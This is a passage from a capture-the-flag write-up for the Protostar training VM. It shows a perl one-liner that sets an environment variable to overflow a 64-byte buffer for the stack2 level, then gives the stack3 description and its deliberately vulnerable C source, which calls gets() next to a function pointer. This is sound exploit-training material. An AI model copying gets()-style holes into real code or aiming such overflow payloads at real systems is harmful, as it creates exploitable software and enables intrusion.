 Ok, this time our payload should be stored in an environement variable.

Its always 64 bytes long + the value in the comparaison.

Let's set our payload.

```bash
user@protostar:/opt/protostar/bin$ export GREENIE=$(perl -e 'print "A" x 64 . "\x0a\x0d\x0a\x0d"')
```

> Note : \x0a\x0d\x0a\x0d is how hexadecimal bytes are represented , notice that they are in reverse order (little endian)

```bash
user@protostar:/opt/protostar/bin$ ./stack2
you have correctly modified the variable
```

We solved it :D


## Stack 3

### Challenge description

Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

Hints

+ both gdb and objdump is your friend you determining where the win() function lies in memory.

This level is at `/opt/protostar/bin/stack3`

### Challenge source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
